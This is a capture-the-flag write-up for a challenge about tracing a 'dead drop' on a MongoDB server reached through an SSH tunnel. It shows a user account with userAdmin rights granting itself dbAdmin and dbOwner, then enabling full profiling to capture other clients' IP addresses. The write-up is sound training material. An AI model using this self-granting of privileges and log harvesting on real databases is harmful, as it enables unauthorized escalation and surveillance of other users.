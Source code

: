 # Task 6 - Follow the Data Part 2 - (Forensics, Databases, Exploitation)Points: 800
```
While you were working, we found the small U.S. cellular provider which issued the SIM card recovered from the device: Blue Horizon Mobile.

As advised by NSA legal counsel we reached out to notify them of a possible compromise and shared the IP address you discovered. Our analysts explained that sophisticated cyber threat actors may use co-opted servers to exfiltrate data and Blue Horizon Mobile confirmed that the IP address is for an old unused database server in their internal network. It was unmaintained and (unfortunately) reachable by any device in their network.

We believe the threat actor is using the server as a "dead drop", and it is the only lead we have to find them. Blue Horizon has agreed to give you limited access to this server on their internal network via an SSH "jumpbox". They will also be sure not to make any other changes that might tip off the actor. They have given you the authority to access the system, but unfortunately they could not find credentials. So you only have access to the database directly on TCP port 27017

Use information from the device firmware, and (below) SSH jumpbox location and credentials to login to the database via an SSH tunnel and discover the IP address of the system picking up a dead drop. Be patient as the actor probably only checks the dead drop periodically. Note the jumpbox IP is 100.127.0.2 so don't report yourself by mistake


Downloads:

SSH host key to authenticate the jumpbox (optional) (jumpbox-ssh_host_ecdsa_key.pub)
SSH private key to authenticate to the jumpbox: user@external-support.bluehorizonmobile.com on TCP port 22 (jumpbox.key)
Enter the IP address (don't guess)
```


## Connection Commands
```
ssh -vvvv -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 27017:100.107.142.158:27017  user@external-support.bluehorizonmobile.com

mongosh 'mongodb://maintenance:e34adee367a46a@localhost:27017/?authSource=snapshot-f2852ce48e77'
```

## Solution
Before this I had never used `mongodb`, so I went to [The MongoDB Documentation](https://www.mongodb.com/docs/manual/).
After connecting with `mongosh` I went to check the permissions that I had, and immediately thought that any role called `*Admin` seemed like really bad OPSec, so I went to see what `userAdmin` actually has permission to do.
```
test> use snapshot-f2852ce48e77
switched to db snapshot-f2852ce48e77
snapshot-f2852ce48e77> db.getUsers()
{
  users: [
    {
      _id: 'snapshot-f2852ce48e77.maintenance',
      userId: new UUID("5af6b873-e5fc-43a8-ad67-5cc76e0cf7b8"),
      user: 'maintenance',
      db: 'snapshot-f2852ce48e77',
      roles: [
        { role: 'userAdmin', db: 'snapshot-f2852ce48e77' },
        { role: 'readWrite', db: 'snapshot-f2852ce48e77' }
      ],
      mechanisms: [ 'SCRAM-SHA-1', 'SCRAM-SHA-256' ]
    }
  ],
  ok: 1
}
```

After looking at the docs again, it looked like `userAdmin` can grant additional roles, like [`dbAdmin` and `dbOwner`](https://www.mongodb.com/docs/manual/reference/built-in-roles/#mongodb-authrole-dbAdmin).
```
snapshot-f2852ce48e77> db.grantRolesToUser("maintenance", [{role: "dbAdmin", db: "snapshot-f2852ce48e77"}, {role: "dbOwner", db: "snapshot-f2852ce48e77"}, { role: 'enableSharding', db: 'snapshot-f2852ce48e77' },])
```

```
snapshot-f2852ce48e77> db.getUsers()
{
  users: [
    {
      _id: 'snapshot-f2852ce48e77.maintenance',
      userId: new UUID("5af6b873-e5fc-43a8-ad67-5cc76e0cf7b8"),
      user: 'maintenance',
      db: 'snapshot-f2852ce48e77',
      roles: [
        { role: 'userAdmin', db: 'snapshot-f2852ce48e77' },
        { role: 'enableSharding', db: 'snapshot-f2852ce48e77' },
        { role: 'dbAdmin', db: 'snapshot-f2852ce48e77' },
        { role: 'readWrite', db: 'snapshot-f2852ce48e77' },
        { role: 'dbOwner', db: 'snapshot-f2852ce48e77' }
      ],
      mechanisms: [ 'SCRAM-SHA-1', 'SCRAM-SHA-256' ]
    }
  ],
  ok: 1
}

```

Looking at the [table of "Permitted Actions"](https://www.mongodb.com/docs/manual/reference/built-in-roles/#mongodb-authrole-dbAdmin) for the `dbAdmin` role, one of the resources that `dbAdmin` has access to is `system.profile`. Looking around in the [Profiler Documentation](https://www.mongodb.com/docs/manual/tutorial/manage-the-database-profiler/) led me to find that changing the profiling level to `2` is supposed to collect data for all operations, which I assumed would include an authentication from a remote device and any transaction performed, like reading

```
snapshot-f2852ce48e77> db.setProfilingLevel(2)
{ was: 2, slowms: 1, sampleRate: 1, ok: 1 }
```

And then I proceeded to run this command to list out the contents of the `system.profile` collection
```
snapshot-f2852ce48e77> db.getCollection('system.profile').find()
```

Where I noticed that one of the fields, `client`, was an IP address. Please note that this was requeried while doing the writeup.
```json
  {
    op: 'query',
    ns: 'snapshot-f2852ce48e77.system.profile',
    command: {
      find: 'system.profile',
      filter: {},
      lsid: { id: new UUID("e05cbc8b-45bc-41db-88c3-0ed691abfab1") },
      '$db': 'snapshot-f2852ce48e77'
    },
    keysExamined: 0,
    docsExamined: 10,
    cursorExhausted: true,
    numYield: 0,
    nreturned: 10,
    queryHash: '17830885',
    queryFramework: 'classic',
    locks: {
      FeatureCompatibilityVersion: { acquireCount: { r: Long("1") } },
      Global: { acquireCount: { r: Long("1") } },
      Mutex: { acquireCount: { r: Long("1") } }
    },
    flowControl: {},
    responseLength: 9932,
    protocol: 'op_msg',
    millis: 0,
    planSummary: 'COLLSCAN',
    execStats: {
      stage: 'COLLSCAN',
      nReturned: 10,
      executionTimeMillisEstimate: 0,
      works: 11,
      advanced: 10,
      needTime: 0,
      needYield: 0,
      saveState: 0,
      restoreState: 0,
      isEOF: 1,
      direction: 'forward',
      docsExamined: 10
    },
    ts: ISODate("2023-12-11T02:49:42.937Z"),
    client: '100.127.0.2',
    appName: 'mongosh 2.0.2',
    allUsers: [ { user: 'maintenance', db: 'snapshot-f2852ce48e77' } ],
    user: 'maintenance@snapshot-f2852ce48e77'
  }
```


Then I inserted a document into the database, hoping that it might trigger the other device to collect data.
```
snapshot-f2852ce48e77> db.files.insertOne({"blah":"blah"})
```

Then after maybe 15-30ish minutes, I queried again and noticed an extra message that I completely missed before.

```
Type "it" for more
snapshot-f2852ce48e77> it
```


which eventually showed an operation with a different `client` value, which was the solution that I submitted
```
100.90.12.106
```
